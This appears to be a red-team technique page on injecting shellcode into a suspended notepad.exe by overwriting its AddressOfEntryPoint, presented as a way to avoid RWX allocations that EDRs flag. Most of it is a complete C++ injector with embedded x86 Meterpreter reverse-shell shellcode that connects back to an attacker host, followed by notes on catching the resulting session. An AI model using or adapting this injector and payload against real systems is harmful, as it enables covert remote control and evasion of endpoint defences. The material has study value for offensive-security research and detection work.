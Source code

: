 ```yaml
---
description: Code Injection
---
```


# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state. 
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:

![](../../.gitbook/assets/image%20%28126%29.png)

We then need to parse out the NT and Optional Headers and find the AddressEntryPoint \(Relative Virtual Address\) of the notepad.exe which in my case was at 0001bf90:

![](../../.gitbook/assets/image%20%2845%29.png)

Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address \(by adding the two up\) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:

![bytes at AddressOfEntryPoint get overwritten with shellcode](../../.gitbook/assets/overwrite-entrypoint.gif)

Resuming the suspended process executes our shellcode which results in a meterpreter session:

![](../../.gitbook/assets/overwrite-entrypoint-catch-meterpreter.gif)

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

